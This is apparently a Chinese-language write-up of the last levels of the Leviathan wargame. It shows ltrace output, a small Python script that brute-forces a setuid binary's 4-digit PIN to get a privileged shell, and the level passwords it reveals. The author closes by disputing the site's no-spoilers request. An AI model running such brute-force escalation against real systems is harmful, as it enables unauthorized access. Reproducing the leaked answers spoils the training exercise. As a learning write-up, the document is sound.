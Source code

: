 UgaoFee4li

进来发现一个setuid的，owner是leviathan7的可执行文件，感觉有点老套了。

运行发现需要把4位的pin作为参数运行：
```
leviathan6@leviathan:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
```
随便来个pin，`ltrace`一下试试，发现行不通，`strace`也看不到什么有用的信息，果然不可能一招鲜：
```
leviathan6@leviathan:~$ ltrace ./leviathan6 1234
__libc_start_main(0x804853b, 2, 0xffffd764, 0x80485e0 <unfinished ...>
atoi(0xffffd89c, 0, 0xf7e40890, 0x804862b)                            = 1234
puts("Wrong"Wrong
)                                                         = 6
+++ exited (status 0) +++
```
本来这个时候该祭出gdb了，但是看到四位pin，又是命令行参数，很显然是希望被暴力破解。。。手动来一个简陋脚本：

```python
#! /bin/python3

import os

for i in range(10000):
    x = str(i).zfill(4)
    print (x)
    os.system(r'~/leviathan6 ' + x)
```
运行发现在`7123`时成功进入一个shell，查看`whoami`发现是leviathan7，于是cat密码得`ahy7MaeBo9`。

看网站是没有下一关了，但是因为有level 7，登陆一下试试发现：
```
leviathan7@leviathan:~$ ls
CONGRATULATIONS
leviathan7@leviathan:~$ file *
CONGRATULATIONS: ASCII text
leviathan7@leviathan:~$ cat CONGRATULATIONS 
Well Done, you seem to have used a *nix system before, now try something more serious.
(Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)
```

至此Leviathan结束，我击败了利维坦！被你说中了，我确实会*nix，我寻思不会的人大概做不到这里，原来你也知道。

作者再次警告不要发布任何剧透。。。怎么说呢，虽然能理解，但是我觉得用户是有这个权力的啊，所有网游都是发布新版本，被社区玩透，然后再发布新内容的。

况且对于像我这样的选手，看别人的思路会获得很大的帮助。这些技巧性的东西是可以由外界传授获得的，不可能指望每个人花整整一周的时间在一个入门级的问题上挣扎，那不叫钻研，叫浪费时间。会自己做这个网站的应该至少是有学习热情的，只要具有这样的能动性，应该不会因为网络上能找到答案而影响游戏性或者学习过程。